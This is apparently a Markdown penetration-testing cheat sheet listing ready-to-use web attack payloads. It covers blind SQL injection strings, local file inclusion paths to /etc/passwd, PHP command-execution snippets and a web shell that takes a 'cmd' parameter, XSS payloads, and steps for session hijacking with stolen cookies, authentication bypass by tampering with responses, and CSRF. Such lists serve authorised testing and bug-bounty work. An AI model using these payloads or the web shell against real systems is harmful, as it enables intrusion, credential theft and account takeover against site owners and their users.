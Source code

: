 ## Time Based Blind SQL Injection:
```
'(select * from (select(sleep(10)))a)
,(select*from(select(sleep(15)))a)
';WAITFOR DELAY '0:0:30'--
'XOR(if(now()=sysdate(),sleep(5*5),0))OR'
```
## Boolean Based Blind SQL Injection:
```
'2 OR 1=1
'2 AND 1=1
```
## Local File Inclusion (LFI):
```
<?php include 'C:\Windows\System32\drivers\etc\hosts';?>
/etc/passwd
/etc/hosts
/../../etc/passwd
```
## Remote Code Execution (RCE):
```
<?php system("cat /etc/passwd");?>
<?php system("id");?>
<?php echo phpinfo(); ?>
```
## Malicious File Upload (Shell Execution):
```
<?php system($_GET['cmd']); ?>

https://github.com/hackerhijeck/For_Me/blob/main/Web_Shell.php
```
## Application is Vulnerable to Reverse Web shell (Shell Execution):
```
https://www.revshells.com
```
## File Upload Bypass:
```
https://book.hacktricks.xyz/pentesting-web/file-upload
```
## Session Hijacking:
```
Step1: Using xss hunter payload, execute the payload in logged in user account.
Step2: After got the cookies in the XSS Hunter.
Step3: Copy the cookies and before login paste and change into the cookies and refresh it.
```
## Session Fixation in The Application:
```
Step1: Before login, Check the cookie or session token.
Step2: Then After login, Check the cookie or session token, If same token or cookies is there.
```
## URL Redirection in the application:
##### Endpoint Pattern:
```
/?url=
/?redirect_url:
/?checkout_url=
/?login_url=
/?redirect_uri=
```
## Reflected Cross Site Scripting Attack:
```
<script>alert(1)</script>
<img src=x onerror=alert(1)>
<svg/onload=alert(1)>
javascript:alert(1)//
"onmouseover=alert(1);
<x onclick=alert(1)>click!
```
## HTML Injection
```
<h1>HTML_Injection</h1>
<marquee>HTML_Injection</marquee>
```
## Link Injection:
```
<a href="https://google">ClickMe</a>
```
## Iframe Injection:
```
<iframe src="https://google.com"></iframe>
```
## Blind Cross Site Scripting Attack:
```
XSS Hunter payload
```
## Admin/User Login Authentication Bypass Using Success Response:
#### Process 1:
```
Step1: Login panel capture the request and Do intercept and click to respnse to this request and then forward the request
Step2: If Response code 404 Forbidon then change to 200 OK. and then forward the request.
```
#### Process 2:
```
Step1: In login panel first logged in a valid user and capture the request and "Do intercept" and click to "response to 
        this request" and then forward the request.
Step2: Copy the 200 OK reponse data and save it any txt format.
Step3: Now try to unathorized user, in login panel capture the request and "Do intercept" and click to "response to 
        this request" and then forward the request.
Step4: In Response data, paste the data which copied from a valid user, and then forward the request.
```
## Cross Site Request Forgery (CSRF):
```
Step1: Capture any POST data and click generate CSRF poc, save it into the html file.
Step2: Change the POST data to anything you want.
Step3: Now open into the browser and click submit.
```
### Account Takeover through forget password:
```
https://infosecwriteups.com/all-about-password-reset-vulnerabilities-3bba86ffedc7
```
### No Session Termination After Password Change:
```
Step1: Login as a user, After logged in capture a request of any functionality and get into the Repeater and send to Response.
Step2: Wait minimum 40,50 minutes, Do not loggout the account.
Step3: After complete the time, then again click send to the reponse in the Burpsuite.
Step4: If its working properly, then it No Session Termination Vulnerability.
```
### Concurrent Logins with the Same Username in admin/user account:
```
Step1: Same time, try to login same user account in two different computer.
```
### Trace method Enabled:
```
Step1: $ curl -X TRACE -H "X-Header: geeknik/pentest" https://url.com
Step2: $ curl -X TRACE -H "Via: <svg/onload=alert('XSS')>" https://url.com

https://hackerone.com/reports/222692
```
### Full path disclosure:
```
/?file=
/?page=

<?php
   echo file_get_contents(getcwd().$_GET['page']);
?>
```
### Improper Input Validation in the Application:
```
<script>alert(1)</script>
<h1>Test</h1>
```
### Application is Vulnerable to Clickjacking Attacks:
```
<!DOCTYPE html>
<html>
<head>
<title>This is Clickjacking Test Page!</title>
</head>
<body>
<iframe src="https://url.com" width="500" height="500"></iframe>
</body>
</html>
```
